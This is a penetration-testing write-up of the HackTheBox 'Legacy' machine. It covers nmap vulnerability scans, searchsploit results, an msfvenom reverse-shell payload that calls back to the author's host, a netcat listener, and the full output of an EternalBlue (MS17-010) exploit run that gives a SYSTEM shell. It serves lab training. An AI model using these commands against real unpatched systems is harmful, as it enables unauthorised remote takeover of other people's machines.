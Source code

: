 # Legacy

## IP
The IP address for this machine on HackTheBox was `10.10.10.4`.

## NMap Scan
```
sudo nmap -A 10.10.10.4 -p139,445 -vv
...
...
PORT    STATE SERVICE      REASON          VERSION
139/tcp open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds syn-ack ttl 127 Windows XP microsoft-ds
```

This time with NSE Scripts turned on...
	
``` 
kali@kali:~$ sudo nmap -A 10.10.10.4 -p139,445 --script=smb-vuln-* -vv
...
...
PORT    STATE SERVICE      REASON          VERSION
139/tcp open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds syn-ack ttl 127 Microsoft Windows XP microsoft-ds
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2000|XP|2003 (90%)
...
...
Host script results:
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.***
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14 
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
...
... 
```

## Searchsploit

```
kali@kali:~$ searchsploit ms17-010
------------------------------------------------- ---------------------------------
 Exploit Title                                   |  Path
------------------------------------------------- ---------------------------------
Microsoft Windows - 'EternalRomance'/'EternalSyn | windows/remote/43970.rb
Microsoft Windows - SMB Remote Code Execution Sc | windows/dos/41891.rb
Microsoft Windows 7/2008 R2 - 'EternalBlue' SMB  | windows/remote/42031.py
Microsoft Windows 7/8.1/2008 R2/2012 R2/2016 R2  | windows/remote/42315.py
Microsoft Windows 8/8.1/2012 R2 (x64) - 'Eternal | windows_x86-64/remote/42030.py
Microsoft Windows Server 2008 R2 (x64) - 'SrvOs2 | windows_x86-64/remote/41987.py
------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

## MS17-010 (CVE-2017-0143)
This is Eternal Blue. At this point, I got stuck and followed Rana Khalil's walkthrough (https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/windows-boxes/legacy-writeup-w-o-metasploit). I downloaded Impacket into my Ptyhon2.7 directory along with https://github.com/helviojunior/MS17-010.git exploit code. 

From there, I created a reverse Windows TCP shell using meterpreter:

```msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.23 LPORT=4444 EXITFUNC=thread -f exe -a x86 --platform windows -o reverse-shell.exe```

This creates a reverse Windows TCP shell called "reverse-shell.exe" that attempts to connect to my local machine on port 4444.

## Exploit
From there I started a Netcat listener on port 4444:

```nc -nlvp 4444```

And using helviojunior's ***send_and_execute.py*** script, sent the exploit to the target machine:

```
kali@kali:~/Desktop/OSCP/Legacy/MS17-010 manual exploit/MS17-010-master$ python send_and_execute.py 10.10.10.4 ../../reverse-shell.exe 
Trying to connect to 10.10.10.4:445
Target OS: Windows 5.1
Using named pipe: browser
Groom packets
attempt controlling next transaction on x86
success controlling one transaction
modify parameter count to 0xffffffff to be able to write backward
leak next transaction
CONNECTION: 0x8200d010
SESSION: 0xe105dde8
FLINK: 0x7bd48
InData: 0x7ae28
MID: 0xa
TRANS1: 0x78b50
TRANS2: 0x7ac90
modify transaction struct for arbitrary read/write
make this SMB session to be SYSTEM
current TOKEN addr: 0xe1adbf10
userAndGroupCount: 0x3
userAndGroupsAddr: 0xe1adbfb0
overwriting token UserAndGroups
Sending file ON6AFZ.exe...
Opening SVCManager on 10.10.10.4.....
Creating service JUNd.....
Starting service JUNd.....
The NETBIOS connection with the remote host timed out.
Removing service JUNd.....
ServiceExec Error on: 10.10.10.4
nca_s_proto_error
Done
```

Catch on the listener:

```
kali@kali:~/Desktop/OSCP/Legacy$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.XX.XX] from (UNKNOWN) [10.10.10.4] 1032
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```

This exploit automatically escalates to administrator rights on the target and from there it's just navigating to the proper directories to grab the user and root flags.
